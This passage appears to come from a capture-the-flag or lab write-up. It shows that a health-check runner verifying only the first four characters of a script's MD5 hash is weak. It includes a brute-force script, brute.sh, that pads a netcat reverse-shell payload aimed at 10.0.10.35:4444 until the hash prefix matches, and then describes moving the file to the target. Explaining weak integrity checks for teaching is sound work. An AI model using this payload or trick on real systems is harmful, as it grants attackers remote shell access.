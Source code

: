 ```bash
actual_md5_prefix=$(md5sum "$script_to_run" | awk '{print $1}' | cut -c 1-4)
expected_md5_prefix=$(echo "$the_md5" | awk '{print $1}' | cut -c 1-4)

if [ "$actual_md5_prefix" == "$expected_md5_prefix" ]; then
    echo "MD5 checksum matches. Running the script..."
    bash "$script_to_run"
else
    echo "MD5 checksum does not match. Expected '$expected_md5_prefix', but got '$actual_md5_prefix'."
    exit 1
fi
```
- `healthy.sh`
	- This script runs regular health checks. Using the following command, we can get its MD5 checksum:
```powershell
certutil -hashfile .\healthy.sh MD5
# result
MD5 hash of .\healthy.sh:
b8871ef2f34b68986393510750e83265
```

The MD5 hash `b8871ef2f34b68986393510750e83265` matches the one in the `README.MD` file.

Overall, the mechanism implemented here is used for performing regular health checks from a machine that connects to the shared folder. Additionally, it employs an *insecure* method for preventing the execution of an overwritten file, as it only checks the first 4 characters of the MD5 hash. This makes it vulnerable to a brute-force attack using the following script:

`brute.sh`
```bash
#!/bin/bash

# prepare the payload
FILE_PATH="shell.sh"
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.0.10.35 4444 >/tmp/f' > $FILE_PATH

TARGET_CHECKSUM="b887"

# add '#' to the end of shell file till first 4 characters are match
while true; do
    CURRENT_CHECKSUM=$(md5sum "$FILE_PATH" | awk '{ print $1 }' | cut -c 1-4)

    if [ "$CURRENT_CHECKSUM" == "$TARGET_CHECKSUM" ]; then
        echo "The file's checksum now matches the target: $CURRENT_CHECKSUM"
        break
    fi

    echo -n "#" >> "$FILE_PATH"

done
```
After creating `shell.sh`, transfer it onto the target machine, which can be done via a Python server.
![image](./images/prepare-exploit.png)
